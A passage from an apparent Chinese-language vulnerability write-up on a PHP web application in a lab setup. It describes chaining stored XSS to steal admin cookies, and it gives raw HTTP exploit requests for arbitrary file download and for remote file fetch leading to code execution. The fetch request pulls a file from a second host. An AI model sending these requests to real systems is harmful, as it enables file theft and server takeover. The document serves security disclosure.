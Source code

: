 ![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a14KaTyU4Yiaz2CAS0gEHiaoj3ib8qjvsQNaBM6iaiciaTMjlIv3wfFFQxRW9w/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1h6uWLU44xa225gXUmWfZmVKlVxYkb0fEMXicv3tpWBNSkecCSkb9W0Q/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a13kgcpjsf77ZVS49nMuCvuh2I1Yt9Kswc3icERQHyDBbZ4mP3J8IzA7A/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1MUO2u41SnLHCu2MPjDNTde89TsnnaicGMadiaddU3abI9D4mdYyOgckQ/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1uNTGicRavSLuaSG2aggEgBHbGVyB00UTSicSFxHQ0VP29RI4m42T4y4Q/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a15QTBW7bV1JPje3Jibo4QM5cUMMjbRcdmK2oaZibfooAMXFbkWYnF2dgA/640?wx_fmt=png "null")  
  
　　成功执行命令  
  
　　结合原本的存储型 XSS，可以直接获取管理员的 Cookie 值然后实现后台计划任务命令执行，或者直接通过 js 文件实现类似 CSRF + 后台计划任务命令执行。  
### 任意文件下载  
  
　　构造数据包  
```
GET /service/app/files.php?type=download&file=L3Rlc3QudHh0 HTTP/1.1
Host: 192.168.222.139:9080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.222.139:9080/C292CA
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9c53f8f8c903d9412a3f0211
Connection: close
```  
  
　　file 的值是 base64 编码后的 /test.txt 成功读取文件内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1U2maL8MjuGe3JTBt30CnZrS64bqKURfdnzJK0XbCcXazvC1M2JbqpQ/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a14HUibj3XbtPyaS9XDSqfToONANrN98cCzrtIgPumwaka2MJxrcxr0Pg/640?wx_fmt=png "null")  
  
　　service/app/files.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1kxlLoOaF4uV1tMfeQsgKNiaT1L7vsQjdt1RpDGGWClUlTZOkc5FNStQ/640?wx_fmt=png "null")  
  
　　文件下载通过 get 获取文件名，通过 base64 解码获取，没有校验，所以可以实现任意文件下载  
### 任意代码执行  
  
　　构造数据包  
```
POST /service/app/files.php?type=download_remote_file HTTP/1.1
Host: 192.168.222.139:9080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.222.139:9080/C292CA
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9c53f8f8c903d9412a3f0211
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 95

url=aHR0cDovLzE5Mi4xNjguMjIyLjE6ODAwMC8xLnR4dA==&download_to_file_folder=&newfilename=testing.txt
```  
  